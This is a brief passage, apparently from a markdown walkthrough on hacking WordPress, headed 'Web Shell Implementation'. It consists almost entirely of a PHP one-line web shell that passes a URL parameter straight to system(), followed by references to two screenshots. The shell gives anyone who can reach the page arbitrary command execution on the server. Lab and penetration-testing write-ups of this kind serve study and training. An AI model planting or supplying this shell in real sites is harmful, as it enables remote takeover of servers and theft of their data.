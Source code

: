 **Web Shell Implementation:**
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

![alt text](screenshots/Hacking_Wordpress/19.PNG)


![alt text](screenshots/Hacking_Wordpress/20.PNG)

